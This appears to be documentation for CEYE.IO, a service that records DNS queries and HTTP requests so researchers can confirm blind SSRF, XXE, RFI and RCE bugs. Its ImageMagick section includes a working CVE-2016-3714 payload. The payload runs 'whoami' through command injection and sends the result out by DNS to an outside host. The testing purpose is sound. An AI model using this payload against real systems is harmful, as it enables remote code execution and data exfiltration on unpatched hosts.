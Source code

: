 # Introduce

CEYE.IO platform, which monitoring DNS queries and HTTP requests through its own DNS server and HTTP server, it can also create custom files as online payloads. It can help security researchers collect information when testing vulnerabilities (e.g. SSRF/XXE/RFI/RCE).

For each user, there is a six random characters unique identifier code and unique subdomain value, it can be found in profile page. All DNS queries and HTTP requests for the subdomain and followings are logged. For example, b182oj is the unique identifier code for someone, and b182oj.ceye.io is his/her subdomain. All DNS quries and HTTP requests for b182oj.ceye.io and *.b182oj.ceye.io will be recorded. All records can export from the server, by processing these access logs, researchers are be able to confirm and improve their research.

## DNS Queries
DNS queries resolve in a number of different ways. In this case, CEYE.IO platform provide a dnsserver to resolve domain - ceye.io. Its nameserver address is set to own server IP, therefore all DNS queries about domain - ceye.io will be sent to own DNS server eventually.

For example, use nslookup to query dnsquery.test.b182oj.ceye.io in terminal, and you will found this querying in record page: 

![](https://images.seebug.org/ceye/dns-query-1.png)

The Remote column recording client ip address, Query Name column recoding domain name client queried, UPDate column show the last time queried, and Count column show how many times querying for this domain. 

![](https://images.seebug.org/ceye/dns-query-2.png)

Also, there is all records detail about b182oj.ceye.io or *.b182oj.ceye.io DNS queries in DNS queries page. In this page, You can clearly or export these records.

CVE-2016–3714 - the RCE vulnerability in ImageMagick, influencing many applications used this componment, but in this case, may be there is no feedback when testing this vulnerability, because of ImageMagick couldn't return any information usually. With CEYE.IO platform, you can send Payload with a specail mark to collect the command execution result returned.

e.g. (cve-2016-3714.mvg)

  push graphic-context
  viewbox 0 0 640 480
  fill 'url(https://example.com/"|ping `whoami`.rce.imagemagick.b182oj.ceye.io")'
  pop graphic-context

whoami will be executed in linux system if this host is vulnerable, and padding its value with .rce.imagemagick.b182oj.ceye.io, ping command will be executed, you will found the result in DNS queries page if succeed: 

![](https://images.seebug.org/ceye/dns-query-3.png)

## HTTP Requests
CEYE.IO platform has own HTTP server to record all requests for user domain name. That can be used to do some interesting things. For example, use curl to request http://httprequest.test.b182oj.ceye.io/hello/?p=httptest in terminal, and you will found this querying in record page: 
![](https://images.seebug.org/ceye/http-request-1.png)

In backend, CEYE.IO platform will record the IP address of client, the URL requested, the User-Agent of client enviroment, etc. You can found the detail in HTTP requests page: 

![](https://images.seebug.org/ceye/http-request-2.png)